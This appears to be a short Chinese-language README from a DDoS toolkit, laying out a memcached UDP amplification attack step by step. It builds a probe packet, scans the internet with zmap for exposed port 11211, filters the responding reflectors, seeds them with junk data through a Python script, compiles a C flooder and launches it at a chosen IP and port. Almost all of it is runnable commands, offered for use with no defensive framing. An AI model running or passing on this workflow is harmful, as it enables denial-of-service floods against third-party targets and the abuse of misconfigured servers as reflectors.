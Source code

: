 ### 目录
    cd ddos/meme

### 生成MEME 载荷
    echo -ne '\x00\x01\x00\x00\x00\x01\x00\x00stats items\r\n' > memcached_probe.pkt

### 扫描
    nohup zmap -p11211 --output-filter='sport=11211' -Mudp --probe-args=file:memcached_probe.pkt -f "saddr,udp_pkt_size,data" -o memcached.alive.txt >> zmap.log &

### 过滤列表（这将删除虚假响应并清理列表）
-     cat memcached.alive.txt | sed 's/,/ /g' | sed 's/saddr.*//g' | awk '$3~/53544154/ || $3~/454e44/ || $3~/737461747320/' | awk '{print $1}' | sort -u > memcached.list.txt
-     wc -l memcached.list.txt

### 运行播种过程
-     python3.8 -m pip install memcache
-     rm -f junkfile && python3.8 memcached-seeder.py memcached.list.txt junkfile

### 编译
    gcc memcached-static.c -o meme -pthread

## 攻击
    ./meme ip port junkfile 1 -1 60
